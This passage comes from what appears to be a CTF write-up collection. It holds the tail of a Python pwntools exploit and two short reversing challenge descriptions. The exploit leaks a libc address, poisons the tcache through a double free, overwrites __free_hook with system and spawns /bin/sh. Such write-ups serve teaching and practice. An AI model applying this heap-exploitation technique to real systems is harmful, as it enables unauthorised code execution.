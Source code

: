 ```python
remove(0) # 1->0

libc_addr = u64(view(0) + '\x00\x00') - 0x3ebca0
print hex(libc_addr)

#3. rewrite __free_hook and getshell
add() #1
add('\x00', 'D' * 0xb0) #2

remove(1)
remove(1)
#double free

#0xc0 tcache poisoned
add('\x00', p64(libc_addr + e.symbols["__free_hook"]).ljust(0xb0, '\x00'))
add('\x00', p64(libc_addr + e.symbols["system"]).ljust(0xb0, '\x00'))

sh.sendline("1")
sh.recvuntil("name: ")
sh.sendline("/bin/sh")
sh.recvuntil("buf: ")
sh.sendline("/bin/sh")

sh.interactive()
```

## 500 Reversing / Plaid Party Planning III 2 ##

**Description**

> [This binary](files/pppiii_450cfae15d4434c4f5fe320fae78ec40) has a fix for an unintentional solution. Let's keep the party going.
> 
> NOTE: We have pushed an updated binary. This update fixes a bug in the check function and should hopefully make the check function easier to understand. The diff with the binary below should be minimal. Apologies.
> 
> The previous Plaid Party Planning III 2 <a href="/files/pppiii-2454fc1645e9ffcee447eff7e6d5d2f2" target="_blank">binary</a>.

**Files provided**

 - [`pppiii_450cfae15d4434c4f5fe320fae78ec40`](files/plaidpartyplanningiii2-pppiii_450cfae15d4434c4f5fe320fae78ec40)

## 500 Reversing / Plaid Party Planning III ##

**Description**

> This year, we're having another party. We managed to come to a consensus to have [Indian food](files/pppiii-b73804b431586f8ecd4a0e8c0daf3ba6), but I can't figure out where everyone should sit. Can you help us make sure the dinner goes off without a hitch?
